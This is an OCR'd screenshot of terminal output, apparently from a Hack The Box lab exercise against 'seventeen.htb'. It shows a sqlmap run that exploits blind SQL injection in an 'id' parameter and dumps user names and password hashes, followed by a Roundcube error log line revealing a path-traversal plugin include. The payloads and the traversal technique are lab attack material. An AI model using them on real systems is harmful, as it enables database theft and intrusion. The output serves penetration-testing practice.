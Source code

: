 [*] ending @ 11:37:06 /2022-07-20/

                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://exam.seventeen.htb/?p=take_exam&id=1" -batch -D db_sfms -T user --dump     
        ___
       __H__                                                                                                                                                
 ___ ___[']_____ ___ ___  {1.6.6#stable}                                                                                                                    
|_ -| . [,]     | .'| . |                                                                                                                                   
|___|_  [.]_|_|_|__,|  _|                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:37:31 /2022-07-20/

[11:37:31] [INFO] resuming back-end DBMS 'mysql' 
[11:37:31] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=0bfe021eb41...27b25dbfb8'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=take_exam&id=1' AND 1565=1565 AND 'Vlli'='Vlli

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=take_exam&id=1' AND (SELECT 8047 FROM (SELECT(SLEEP(5)))Verc) AND 'RSwQ'='RSwQ
---
[11:37:31] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38, PHP, PHP 7.2.34
back-end DBMS: MySQL >= 5.0.12
[11:37:31] [INFO] fetching columns for table 'user' in database 'db_sfms'
[11:37:31] [INFO] resumed: 6
[11:37:31] [INFO] resumed: user_id
[11:37:31] [INFO] resumed: firstname
[11:37:31] [INFO] resumed: lastname
[11:37:31] [INFO] resumed: username
[11:37:31] [INFO] resumed: password
[11:37:31] [INFO] resumed: status
[11:37:31] [INFO] fetching entries for table 'user' in database 'db_sfms'
[11:37:31] [INFO] fetching number of entries for table 'user' in database 'db_sfms'
[11:37:31] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[11:37:31] [INFO] retrieved: 3
[11:37:32] [INFO] retrieved: Administrator
[11:37:36] [INFO] retrieved: Administrator
[11:37:39] [INFO] retrieved: fc8ec7b43523e186a27f46957818391c
[11:37:49] [INFO] retrieved: administrator
[11:37:52] [INFO] retrieved: 1
[11:37:53] [INFO] retrieved: admin
[11:37:54] [INFO] retrieved: Mark
[11:37:55] [INFO] retrieved: Anthony
[11:37:57] [INFO] retrieved: b35e311c80075c4916935cbbbd770cef
[11:38:06] [INFO] retrieved: Regular
[11:38:08] [INFO] retrieved: 2
[11:38:09] [INFO] retrieved: UndetectableMark
[11:38:13] [INFO] retrieved: Steven
[11:38:15] [INFO] retrieved: Smith

[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)